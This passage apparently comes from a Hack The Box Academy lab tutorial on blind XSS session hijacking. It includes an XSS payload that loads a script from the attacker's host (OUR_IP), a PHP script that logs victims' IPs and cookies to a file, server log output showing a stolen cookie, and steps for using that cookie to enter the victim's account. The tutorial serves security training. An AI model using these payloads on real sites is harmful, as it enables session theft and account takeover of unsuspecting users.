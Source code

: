 Now, we can change the URL in the XSS payload we found earlier to use `script.js` ( `don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload`):

```html
<script src=http://OUR_IP/script.js></script>

```

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.

We can save the following PHP script as `index.php`, and re-run the PHP server again:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:

```shell
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2

```

As mentioned earlier, we get the cookie value right in the terminal, as we can see. However, since we prepared a PHP script, we also get the `cookies.txt` file with a clean log of cookies:

```shell
cat cookies.txt
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2

```

Finally, we can use this cookie on the `login.php` page to access the victim's account. To do so, once we navigate to `/hijacking/login.php`, we can click `Shift+F9` in Firefox to reveal the `Storage` bar in the Developer Tools. Then, we can click on the `+` button on the top right corner and add our cookie, where the `Name` is the part before `=` and the `Value` is the part after `=` from our stolen cookie:

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_set_cookie_2.jpg)
